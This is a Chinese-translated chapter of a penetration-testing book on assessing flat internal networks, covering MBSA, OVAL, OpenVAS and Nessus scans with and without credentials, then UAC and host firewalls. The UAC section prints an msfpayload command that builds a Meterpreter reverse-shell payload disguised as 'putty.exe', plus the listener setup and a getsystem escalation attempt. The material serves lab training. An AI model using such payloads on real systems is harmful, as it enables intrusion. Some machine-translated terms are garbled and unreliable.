# 十、测试平面和内部网络

在本章中，您将学习在网络平坦时评估网络的技术，也就是说，我们与目标之间没有任何关系。这使我们的任务容易得多；此外，网络内部通常是最受信任的位置，因此，它提供的阻力最小，尤其是在第二层和物理**媒体访问控制（MAC）**地址的分配方面。在本章中，我们将讨论以下主题：

*   漏洞扫描器的作用
*   处理主机保护

本章将向我们提供详细信息，说明我们在执行内部或白盒测试时，如何避免与尝试执行外部或黑盒测试时遇到的相同挑战。这并不意味着当网络是扁平的，我们在其中时，我们就没有挑战；我们可能会遇到许多挑战。此外，我们还必须为管理员可能部署的保护做好准备，如基于主机的入侵预防、防病毒、主机防火墙和**增强缓解体验工具包**（**EMET**）。

当我们从内部测试网络时，目标是模拟许多不同的威胁向量。此外，我们希望以未经验证的用户、具有正常权限的用户和具有升级权限的用户的身份访问网络；这与我们在网络中使用的工具配合得很好。

# 漏洞扫描器的作用

那么，漏洞扫描器在其中起到了什么作用？好的，这就是他们擅长的地方：当您向扫描器提供凭据时，扫描器可以登录到机器并检查客户端软件。这是我们在外部测试环境中无法完成的大部分工作。

在我们进入 Kali Linux 发行版中提供的不同扫描器之前，我们将看看两个免费工具，可以用于内部网络的漏洞评估。

## 微软基线安全分析器

我们想看的第一个工具来自微软，它是**微软基线安全分析仪**（**MBSA**。您可以从以下链接下载该工具：[http://www.microsoft.com/en-us/download/details.aspx?id=7558](http://www.microsoft.com/en-us/download/details.aspx?id=7558)

MBSA 工具的一个优点是它来自微软，它对缺少的东西有很好的了解。它还可以很好地识别丢失的补丁，并可以识别安全配置错误。

下载并安装该工具后，打开它并启动程序。以下屏幕截图显示了打开屏幕配置的示例：


显示处于运行状态的工具的屏幕（裁剪的文本不重要）

我们想用工具做的第一件事是扫描计算机。为此，单击**扫描计算机**以启动配置过程，并打开扫描数据输入屏幕。正如你所看到的，我们有很多的扫描方式和一些可选的设置，我们可以选择。以下屏幕截图显示了一个示例：



在这个例子中，你可以扫描任何你喜欢的机器。我们将扫描写这本书的本地主机。选择目标后，点击**开始扫描**开始扫描。因此，您将看到该工具连接到 Microsoft 并下载最新的修补程序信息。您可以将其配置为从本地服务器获取信息，以防您的网络上没有现成的互联网连接。

以下屏幕截图显示了完成扫描的示例：


正如前面的屏幕截图所示，我们确实对扫描的这台机器有一些顾虑。该工具的一个很好的功能是，我们可以点击**如何更正此链接**，并获得有关该发现的其他信息。附加信息的示例可在以下屏幕截图中找到：


MBSA 工具很好地展示了漏洞扫描器擅长的功能。这是供网络所有者使用的，因为它有助于他们的漏洞管理程序。通过内部测试，我们还可以使用漏洞扫描程序向客户端显示其补丁管理策略是否有效。我们想看的下一个工具来自于**Mitre**小组，它是**开放脆弱性评估语言**（**椭圆形**工具。

## 开放式脆弱性评估语言

椭圆形工具与 MBSA 工具不同，因为它不仅关注微软软件，还关注其他软件。需要注意的一点是，该工具不是企业类型的工具，但出于内部测试目的，我们可以使用它查看安装在机器上的软件，并查看是否存在任何漏洞。下面的屏幕截图显示了他们网站上对 OVAL 的描述：



正如前面的截图所示，该工具是国际性的，提供了一种评估计算机系统状态的方法。我们来看看这个工具。要做到这一点，我们将看看椭圆解释器，它提供了一种演示工具及其定义的方法；您可以从[下载 http://sourceforge.net/projects/ovaldi/](http://sourceforge.net/projects/ovaldi/) 。工具下载后，运行该工具并安装它。在本书中，我们将其安装在一台运行 Windows7 的虚拟机上。请随意将其安装在您选择的机器上。下载该工具后，运行可执行文件（SFX 存档）时，所有文件都将解压缩到硬盘上的目录中。默认选择`Program Files`目录；但是，建议您将位置更改为目录名中没有空格的位置。

解压文件后，您可以阅读`README.txt`文件，您将发现接下来要做的事情是下载最新的定义文件。以下屏幕截图显示了这些定义文件（包括其类型）的信息示例：



一旦您查看了有关定义的信息，我们将使用漏洞定义。您可以从[下载他们的最新版本 http://oval.mitre.org/rep-data/index.html](http://oval.mitre.org/rep-data/index.html) 。在撰写本书时，最新版本的 OVAL 是 5.10，这是我们将使用的版本。你的版本可能不同，因此，一些截图可能与书中的截图不同。

您会注意到，这些定义是按平台定义的；这使得我们在运行解释器时更容易只关注我们正在使用的特定平台。由于本书使用的是 Windows7，我们将只下载它。您还可以看到，有一个哈希值可以帮助维护定义的完整性。

### 提示

下载定义后，您希望将其放置在椭圆形目录中，并将其重命名为`definitions.xml`。

重命名文件后，即可运行解释器工具；在命令提示窗口中输入以下内容：

```
ovaldi –m –a xml –x test.html

```

如果你得到了一个应用初始化错误，那么你必须下载正确的 Visual C++平台来为你的 OS 版本和可能的.NET 4 包下载。这是使用 Windows 的缺点之一，尤其是在开源工具方面。当然，在 UNIX 和 Linux 中，您可能会遇到与库依赖性和其他挑战相同的问题。更多信息，请参阅`README`文件。该命令使用散列验证定义文件是否已损坏。

以下屏幕截图显示了运行命令时的初始结果示例：



创建特征文件后，您将看到工具报告，说明它正在收集日期运行椭圆形定义分析。这个过程需要一些时间才能完成，这取决于运行它的机器上的软件和其他东西的数量。以下屏幕截图显示了工具进入此阶段的示例：


分析完成后，输出将写入命令行上指定的文件。在这里的示例中，我们正在将输出写入`test.html`文件。以下屏幕截图显示了系统信息的示例：


前面的屏幕截图不仅向我们展示了有关机器的信息，还展示了椭圆形工具本身。它还为我们提供了模式版本和产品版本。以下该区域是关于工具发现的报告。这是列出漏洞的地方，包括对外部信息的引用，以了解有关发现的更多信息。以下屏幕截图显示了一个示例：



显示列出的漏洞的屏幕，包括对外部信息的引用（剪切文本不重要）

正如您在前面的屏幕截图中所看到的，这里同时引用了椭圆 ID 和**常见漏洞**和**暴露**（**CVE**号。要收集更多信息，您可以点击提供的链接。下面的屏幕截图显示了椭圆形 ID 站点的信息示例：



椭圆形工具是您可能希望更加熟悉的工具。当您进行内部测试时，它可以成为帮助您发现漏洞扫描程序可能无法发现的漏洞的宝贵资产。我们现在来看看通常从远程位置使用的漏洞扫描程序。我们在 MBSA 工具中也有这个功能，但它需要特权访问才能执行扫描。此外，椭圆工具还需要特权访问。

## 无凭证扫描

当我们在内部测试中使用漏洞扫描器时，第一次扫描将没有凭证，因此我们将研究 Kali Linux 中的工具来实现这一点。通过导航到**应用****Kali Linux****漏洞分析**位置，可以找到 Kali Linux 中的漏洞扫描程序。在这个位置，我们可以使用许多工具进行漏洞扫描。以下屏幕截图显示了一个示例：


我们将使用的扫描仪是 OpenVAS 扫描仪。当您第一次开始使用 OpenVAS 时，需要执行许多步骤。第一步是导航到**应用****卡利 Linux****漏洞分析****OpenVAS****初始设置**。这将下载所需的所有插件，并需要一段时间才能完成。加载工具后，将要求您输入密码；默认用户为`admin`，您可以输入自己选择的密码。

接下来需要做的是打开浏览器并连接到工具的界面。在浏览器中，输入`https://127.0.0.1:9392`打开 OpenVAS。以下屏幕截图显示了一个示例：


进入后得到的屏幕 https://127.0.0.1:9392 在浏览器中（剪切的文本不重要）

使用用户名`admin`和初始设置时创建的密码登录界面。这将带您进入扫描配置页面，该页面在 Kali 中包含一个`Quick start`区域，如以下屏幕截图所示：


在扫描之前，我们还有一些额外的步骤要执行。第一步是更新**网络漏洞测试****NVT**提要。导航至**管理****NVT 提要****立即同步提要**；同步完成后，您需要更新**安全内容自动化协议**（**SCAP**提要。我们可以导航到**管理****SCAP 提要****与 SCAP**同步，然后导航到**管理****NVT 提要****立即同步证书提要**来更新证书提要。

对于我们的第一次扫描，我们将扫描 Windows XP 机器，因为它应该为我们提供一些发现。正如您在**快速启动**部分的解释中所看到的，快捷方式为我们省去了创建目标和扫描新任务的麻烦。对于阅读本文的一些人来说，您可能已经在**回溯**发行版上运行了 OpenVAS，并且会记得在那里进行扫描有多么麻烦。

### 注

如果您在 OpenVAS 方面有问题，有时只在回溯中执行该过程会更容易。出于某种原因，当您更新 Kali Linux 发行版时，有时它会破坏 OpenVAS。互联网上有一些非常好的教程可以使用这个工具。在[上可以找到最喜欢的回程使用方法 http://www.ehacking.net/2011/06/backtrack-5-openvas-tutorial.html](http://www.ehacking.net/2011/06/backtrack-5-openvas-tutorial.html) 。尽管它有点过时，但它工作得很好。

扫描完 XP 机器后，我们会收到一份调查结果报告。以下屏幕截图显示了 XP 机器的报告示例：


## 尼索斯

我们将使用的下一个工具是 Tenable 的漏洞扫描工具**Nessus**。您可以从[下载该工具 http://www.tenable.com/products/nessus/select-your-operating-system](http://www.tenable.com/products/nessus/select-your-operating-system) 。

一旦您下载了该工具，您需要注册家庭注册源，然后安装该软件。在本书中，我们将使用该工具的 Windows 版本。这是因为 web 界面使用 flash，这有时会导致 Kali Linux 发行版出现问题，因此使用 Windows 工具通常更容易。欢迎您使用卡利的那一个；只要在互联网上搜索教程，它就会引导你完成整个过程。

在撰写本书时，Nessus 的最新版本是 5.2.5，本次修订版包含了许多功能和 Nessus 重新设计的界面。此外，他们还增加了创建补救报告的功能。当您进行测试时，这始终是一个很好的特性，因为这样您就可以帮助客户机了解修复您发现的结果需要什么。对于此版本，要求您在执行扫描之前首先选择策略。以下屏幕截图显示了策略选项的示例：



对于我们示例中的策略，我们将点击**基本网络扫描**并打开该策略的配置表单。我们将扫描 Windows 7 计算机，但首先需要输入扫描名称。我们将输入名称为`FirstScan`。您还将注意到，您可以选择一个范围。我们将保留 private 的默认设置，点击**下一步**进入下一屏幕。我们可以选择**内部**或**外部**作为扫描类型。由于我们在平面网络上，我们将使用**内部**的设置，然后点击**下一步**。这将把我们带到一个屏幕，在那里我们可以添加凭据。由于这是一个没有凭据的扫描，我们现在将不执行此操作。因此，点击**保存**保存扫描的详细信息。以下屏幕截图显示了我们的首次扫描策略示例：


我们现在可以开始扫描了，请导航到**扫描****新扫描**开始扫描的配置过程。输入扫描的名称，然后输入目标的 IP 地址。以下屏幕截图显示了扫描配置的示例：



确认信息后，点击**启动**按钮启动扫描。您将注意到扫描开始，您应该看到一条**正在运行**消息，指示扫描处于运行状态。这需要一些时间，但扫描完成后，您将在状态区域中看到它指示为**已完成**。以下屏幕截图显示了扫描结果的示例：


那么这个不是很刺激；我们都是蓝色的，总共只有三个漏洞。因此，我们需要审视一些能为我们提供更多弱点的东西。我们现在就要这样做,；下一次扫描将是 Windows XP 机器的扫描。以下屏幕截图显示了此扫描结果的示例：



嗯，这稍微好一点，但不多！

## 凭证扫描

同样，正如我们所指定的，漏洞扫描程序在提供凭据时工作得最好。到目前为止，我们还没有提供任何凭证。我们现在就做。如果您通过导航到**策略****新策略**返回扫描策略的配置，请单击**基本网络扫描**，然后单击**下一步**。进入“凭据”页面的配置时，需要输入管理员帐户的用户名和密码。还有一个认证的扫描选项，但现在，我们将进行与刚才相同的扫描，看看会发生什么。输入所需的详细信息后，单击**启动**启动扫描。

以下屏幕截图显示了已完成扫描的示例：



我们有更多的信息发现，但仍然只有相同的两个中等漏洞，那么我们现在该怎么办？这次我们将尝试另一次扫描，选择使用凭据引用的策略。返回扫描配置。当选项出现时，选择一个用于认证扫描，让我们看看这是否为我们提供了更多的成功。不幸的是，这也没有带来多少成功。过程是从远程位置扫描并记录结果，然后如果范围允许，您可以使用 MBSA 或 OVAL 在本地进行扫描。

在我们继续之前，这里有一个重要的提示：我们一直尝试的扫描都是针对机器的，当时，机器上有 Windows 防火墙。因此，这是内部测试的挑战；如果机器上安装了防火墙，可能会使事情变得更加困难。让我们再看一次 Windows 7 计算机的扫描，检查凭据和防火墙是否关闭。如果机器连接到网络时设置为**公共**，则文件共享将关闭，当我们使用工具扫描时，将无法工作。因此，我们需要确保，如果启用了防火墙，我们仍然可以访问文件共享端口。

防火墙关闭时的 Windows 7 扫描示例如以下屏幕截图所示：


在本例中，由于我们将凭据添加到扫描策略中，因此存在很多漏洞。这就是漏洞扫描器的威力；当他们有资格证书时，他们的效率会更高。

接下来，我们将查看一个针对 Unix 机器的扫描，该机器具有和不具有凭据，因此我们将比较不同的操作系统。我们将使用 FreeBSD Unix，事实上，我们将使用它的旧版本，看看我们能发现什么。我们将使用的版本是 6.4，在写这本书的时候，版本是 10.0，所以有很大的不同。以下屏幕截图中显示了无凭证的 FreeBSD 扫描示例：



正如我们从前面的屏幕截图中看到的，有三个低等级漏洞。这是一台非常旧的 Unix 机器，因此很难相信只发现了三个漏洞。但是，让我们添加一些凭据，看看是否能获得更好的结果。对于 Unix 和 Linux，通过**安全 Shell**（**SSH**提供凭证。以下屏幕截图显示了使用 SSH 凭据进行相同扫描的示例：


我们现在有 28 个漏洞，但更重要的是，我们有一个关键的发现，即有一个不受支持的操作系统。我们会认为该操作系统是不受支持的，因为它是一个非常旧的版本，但当您考虑它时，仍然没有那么多漏洞。

您还可能注意到，在尝试扫描 FreeBSD Unix 机器时，扫描似乎需要很长时间。这是因为它是一台知道潜在扫描是什么样子的机器，因此会限制它返回的内容。以下屏幕截图显示了一个示例：



正如之前的屏幕截图所示，扫描工具需要大量数据包，FreeBSD 机器将其限制为每秒 200 个数据包，无论该工具尝试什么。这一点，再加上大多数漏洞扫描器将其主要关注点放在 Windows 上的事实，就是我们在扫描中没有看到很多发现的原因。

我们将再尝试一次扫描作为一个示例，以查看扫描仪在遇到 Linux 目标时检测到什么。我们要做的第一个扫描是在我们之前创建的 Kioptrix 机器上使用 Nessus 进行扫描。Kioptrix 机器的 Nessus 网络扫描示例如以下屏幕截图所示：


显示 Kioptrix 机器 Nessus 网络扫描示例的屏幕（裁剪文本不重要）

更像是这样！我们至少可以检测到非常脆弱的 Linux 机器。这就是为什么我们测试我们的射程；我们想知道我们能检测到什么，不能检测到什么。因此，根据本节，FreeBSD Unix 机器没有透露太多信息，但 Windows 和 Linux 机器透露了很多信息。当您进行测试时，最好知道这一点。如果您运行到一台 Unix 机器上，您知道，一旦您完成了其他机器的所有详细信息，您就可以在测试结束时保存它。

# 处理主机保护

我们知道我们可能会遇到更多的宿主保护；因此，在我们的笔测试实验室中，我们希望测试不同的主机保护，看看我们能做什么和不能做什么。这是一个同样依赖于管理员和我们所面对的团队的领域。一台运行着很少服务的加固的机器将对我们的测试提出挑战。

## 用户账号控制

我们将要遇到的最常见的事情之一是**用户帐户控制**（**UAC**）；这是，因为它在默认情况下处于打开状态，并且在站点安装 Windows 时很少更改。UAC 的一个优点是用户习惯于点击。因此，如果有什么东西突然出现说它需要许可，用户很可能会点击它。我们可以利用这一优势，但用户可能永远不会点击。因此，在这些情况下，我们依靠某种形式的 UAC 旁路来通过 UAC 保护。

在 metasploit 框架中，有一个 UAC 旁路，它是一个位于 MeterMeter 外壳中的函数。有关 UAC 的参考和绕过 UAC 的方法，请参考[http://journeyintoir.blogspot.com/2013/03/uac-impact-on-malware.html](http://journeyintoir.blogspot.com/2013/03/uac-impact-on-malware.html) 。

在大多数情况下，要利用 Windows7 机器，我们需要某种形式的客户端攻击。我们将在本书后面讨论这些攻击。现在，我们将使用简单的方法创建一个可执行文件，然后将其发送到受害者机器。当执行时，这将为我们提供一个进入 Windows7 机器的外壳。一旦我们有了 shell，那么就只需要通过不同的过程来尝试绕过 UAC 并在机器上获得系统级权限。

我们要做的第一件事是验证机器上是否启用了 UAC 设置。导航至**控制面板****行动中心****更改用户账户控制设置**即可找到设置。这将打开 UAC 的设置。以下屏幕截图显示了一个示例：



我们将创建一个可执行文件，并将其传输到 Windows 7 虚拟机，以向我们提供被利用机器的第一个外壳。我们将使用 metasploit 的可执行文件功能。

我们首先需要创建一个可执行文件，作为从 Windows7 机器返回到 Kali Linux 机器的连接。我们在 metasploit 工具中具有此功能。在您的 Kali Linux 机器中，打开终端窗口并输入`msfconsole`以打开 metasploit 工具。metasploit 工具出现后（需要一分钟），输入以下命令：

```
msfpayload windows/meterpreter/reverse_tcp LHOST = <IP ADDRESS OF Kali> LPORT=123 X > putty.exe

```

这将创建名为`putty`的可执行文件，其中包含从网络到 Kali 机器的连接的有效负载和连接信息。

正在输入和完成的命令示例如以下屏幕截图所示：



显示正在输入和完成的命令示例的屏幕（裁剪的文本不重要）

我们已经创建了该文件，需要将其从我们的机器中传送给受害者。我们可以使用某种形式的社会工程；但是，出于我们的目的，在实验室环境中，我们只需将文件拖放到受害者计算机中。

我们需要做的下一件事是设置 metasploit 工具；我们通过输入以下命令来执行此操作：

*   `use exploit/multi/handler`
*   `set PAYLOAD windows/meterpreter/reverse_tcp`
*   `set LHOST <Kali IP>`
*   `set LPORT 123`
*   `exploit`

这将设置侦听器，并等待受害者连接到它。以下屏幕截图显示了命令示例：



我们已经准备好连接。为此，我们需要用户运行我们创建的可执行文件。我们可以使用像`msfencode`这样的编码器来尝试规避现有的基于主机的保护。然而，在测试环境中，我们只能验证规避是否对我们的配置有效，并且不能保证我们将在目标环境中获得相同的配置。当程序运行时，我们应该看到一个连接和会话在 Kali 窗口中打开。以下屏幕截图显示了一个示例：


我们现在有了一个外壳。所以棘手的部分来了；我们必须尝试升级特权，但首先我们需要了解我们的特权级别。在受害者机器上的 shell 中输入`getuid`以显示您当前的权限级别。以下屏幕截图显示了一个示例：


正如前面的屏幕截图所示，我们不是系统，因此我们需要升级权限并绕过 UAC 保护。首先要尝试的是查看 MeterMeter shell 是否可以为我们执行权限提升。我们通过输入`getsystem`并让它尝试将权限升级到系统来实现这一点。以下屏幕截图显示了一个示例：


显示进入 getsystem 并让其尝试将权限升级到系统的屏幕（剪切的文本不重要）

正如前面的截图所示，我们没有成功，所以我们需要尝试另一种方式。在讨论客户端测试时，我们将更详细地了解这一点。所以，现在，我们将停在这里，稍后再看。一如往常，这是一个如何配置我们已经妥协的机器的问题。我们无法保证能够绕过 UAC。

## 主机防火墙

经常被忽视的防御措施之一是主机防火墙。在本章前面，我们解释说，在防火墙打开的情况下，我们在进行漏洞扫描时所能看到的有一个限制。我们将在测试中进一步进行，这样我们就可以看到主机防火墙可能带来的挑战，然后看到即使在防火墙打开的情况下，我们也可以使用哪些方法从目标获取数据。

您可能还记得，使用我们的扫描方法，我们会查找实时系统，然后是端口，然后是服务。从那里，我们执行枚举，识别漏洞，然后根据我们的工作范围在允许的情况下进行攻击。好的，我们现在需要做的是首先在防火墙关闭的情况下查看这个过程，然后在不同定义区域的采样中打开防火墙。我们将使用 Kali Linux 虚拟机和 Windows 7 机器作为测试目标。

在您的 Windows 7 计算机中，我们需要打开防火墙配置。有很多方法可以做到这一点。出于我们的目的，这里我们将右键单击网络托盘图标并导航到**开放网络和共享中心****Windows 防火墙**以打开防火墙配置选项。以下屏幕截图显示了一个示例：


正如前面的屏幕截图所示，我们已经打开了防火墙，但它仅在**家庭或工作（私人）网络**设置中打开。这可能不是我们在环境中会遇到的情况；**公共网络**设置很可能处于开启状态，但对于我们的测试，这将起到作用。因此，问题是，对于最新版本的 Windows（例如，Windows Server 2003）防火墙的设置而言，不同的区域意味着什么？

Windows 的最新版本知道，如果机器的角色是客户端，那么它不应该接收任何连接。那么，我们如何查看连接设置？在 Windows 7 计算机中打开管理员命令提示符，并在命令行中输入以下命令：

```
netsh firewall show portopening

```

以下屏幕截图显示了该命令的示例：



正如前面的截图所示，机器上没有任何打开的内容。同样，这是因为它是一个客户端，默认情况下，Windows 不允许任何东西与客户端通信。这可以通过查看 Windows 计算机上的建议设置来发现。以下屏幕截图显示了一个示例：



现在，我们对 Windows 上的防火墙规则有了更好的理解，是时候进行我们的方法了。使用 Kali Linux 计算机扫描 Windows 7 计算机。您应该执行该方法的步骤，然后查看有无防火墙的结果。下面的屏幕截图显示了使用 Nmap 对没有防火墙的机器进行枚举扫描的示例：



现在我们有了一个结果，显示了关于我们目标的大量信息，我们将打开防火墙，看看 Nmap 工具或者 Nmap 脚本引擎是否检测到来自受防火墙保护的目标的任何信息。您可以使用命令行启用防火墙。在命令提示窗口中，输入`netsh firewall set opmode enable`以启用防火墙。下面的屏幕截图显示了我们扫描受防火墙保护的机器时的结果示例：


正如前面的截图所示，防火墙可能会对我们的测试提出挑战。Windows 7 默认情况下不允许任何入站操作，这一事实表明了安全理念的变化。好消息是有些东西需要访问，因此，管理员将打开某些东西或允许某些程序访问。要从命令行查看允许的程序，请输入以下命令：

```
netsh firewall show allowedprogram

```

